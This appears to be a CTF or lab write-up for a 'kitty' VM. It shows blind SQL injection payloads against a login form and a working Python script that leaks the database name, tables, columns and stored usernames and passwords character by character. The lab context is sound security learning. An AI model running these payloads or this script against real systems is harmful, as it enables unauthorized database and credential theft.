 General blind SQLi payloads are working for our case, an example is :
- When we try `kitty' and database() like '%%' -- -` as username,
  we are redirected to `welcome.php`.
- When we try `kitty' and database() like 'a%' -- -` as username,
  the website tells us that the username or the password is incorrect.

After a few exploit tries, I didn't figure how compare two strings in SQL with
case sensitivity so I will use the function `MD5` to enable case sensitivity
of comparison between strings.

I did an exploit to leak database name, table name, columns name and table
content :

```python
import sys, requests as req, string

choices = ["users_info", "col_name", "tab_name", "db_name"]

if len(sys.argv) < 2 or sys.argv[1] not in choices:
        print("Usage : exploit.py [users_info|col_name|tab_name|db_name]")
        exit(-1)

choice, alp = sys.argv[1], string.ascii_letters + string.digits + ',;_:!'
cols, url = "", "http://[VM_IP_REDACTED]/index.php"

# MD5 for case sensitive comparison
prefix = "kitty' and md5(substr((select group_concat("

templ = {
  "users_info" : prefix + "id,',',username,',',password) from siteusers),",
  "col_name" : prefix + "column_name) from information_schema.columns where table_name='siteusers'),",
  "tab_name" : prefix + "table_name) from information_schema.tables where table_schema=database()),",
  "db_name" : "kitty' and md5(substr(database(),"
}

# POST data
data = {"username" : "junk1", "passwd" : "junk2"}

# Main Loop
cont, ind = True, 1
while cont:
  cont = False
  for i in alp:
    data["username"] = templ[choice]
    data["username"] += str(ind) +",1)) = md5('" + i + "') -- -"

    if "Welcome" in req.post(url,data=data).text:
      cols += i
      print("[-] Actual result :", cols)
      cont = True
      ind += 1
      break;

print("[+] Result :", cols)
```
